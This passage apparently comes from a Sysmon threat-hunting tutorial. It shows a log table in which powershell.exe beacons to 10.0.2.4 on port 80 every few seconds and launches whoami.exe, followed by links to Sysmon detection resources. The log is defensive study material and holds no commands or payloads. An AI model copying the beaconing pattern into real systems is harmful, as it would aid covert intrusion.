    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:37.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:42.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:48.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:53.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:49:58.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:03.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:08.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:13.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:18.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:23.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:28.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:33.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:38.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:43.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:49.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:54.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:50:59.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:04.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:09.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:14.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:14.000Z|
    |powershell.exe|whoami.exe|Launched|{}|2019-12-10T11:51:15.000Z|
    |powershell.exe|whoami.exe|Launched|{}|2019-12-10T11:51:15.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:20.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:20.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:25.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:30.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:35.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:40.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:45.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:50.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:51:55.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:00.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:05.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:10.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:15.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:21.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:26.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:31.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:36.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:41.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:46.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:51.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:52:56.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:01.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:06.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:11.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:16.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:22.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:27.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:32.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:37.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:42.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:47.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:52.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:53:57.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:02.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:07.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:12.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:17.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:23.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:28.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:33.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:38.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:43.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:48.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:53.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:54:58.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:03.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:08.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:13.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:18.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:23.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:28.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:34.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:39.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:44.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:49.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:55:54.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:00.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:05.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:10.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:15.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:20.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:25.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:30.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:35.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:41.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:46.000Z|
    |powershell.exe|10.0.2.4|tcp|{"payload":null,"port":"80","protocol":"tcp"}|2019-12-10T11:56:51.000Z|
    |powershell.exe|powershell.exe|File Of|{}|Unknown|
    |powershell.exe|powershell.exe|File Of|{}|Unknown|
    |whoami.exe|whoami.exe|File Of|{}|Unknown|
    |whoami.exe|whoami.exe|File Of|{}|Unknown|

### Learn from others
- [Threat Hunting via Sysmon](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1554993664.pdf)
: System Monitor (Sysmon) is a Windows system service and device driver
that, once installed on a system, remains resident across system reboots to
monitor and log system activity to the Windows event log. It provides
detailed information about process creations, network connections, and
changes to file creation time. By collecting the events it generates using
Windows Event Collection or SIEM agents and subsequently analyzing
them, you can identify malicious or anomalous activity and understand
how intruders and malware operate on your network [continue...](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1554993664.pdf)

- [Visualise Sysmon Logs and Detect Suspicious Device Behaviour -SysmonSearch-](https://blogs.jpcert.or.jp/en/2018/09/visualise-sysmon-logs-and-detect-suspicious-device-behaviour--sysmonsearch.html)
: In recent sophisticated cyber attacks, it is common to observe lateral movement, where a malware- infected device is used as a stepping stone and further compromise other devices in the network. In order to investigate the compromised devices, it is necessary to retain detailed logs of the applications that run on the device on a daily basis. One of the well-known tools for this purpose is Sysmon [1] from Microsoft, which records various operations on the Windows OS (e.g. applications, registry entries, communication) in the event logs. Most commonly, analysts convert the logs into text format to search for specific items in the logs. However, it is a hectic and not-so-organised task when it comes to investigation over multiple devices. [continue...](https://blogs.jpcert.or.jp/en/2018/09/visualise-sysmon-logs-and-detect-suspicious-device-behaviour--sysmonsearch.html)
- [Sysmon: how to set up, update and use?](https://cqureacademy.com/blog/server-monitoring/sysmon)
: Sysmon can be useful for you because it provides a pretty detailed monitoring about what is happening in the operating system, starting from process monitoring, going through monitoring all the network and ending up with a discovery of the different types of exploitation techniques. [continue...](https://cqureacademy.com/blog/server-monitoring/sysmon)
# End.
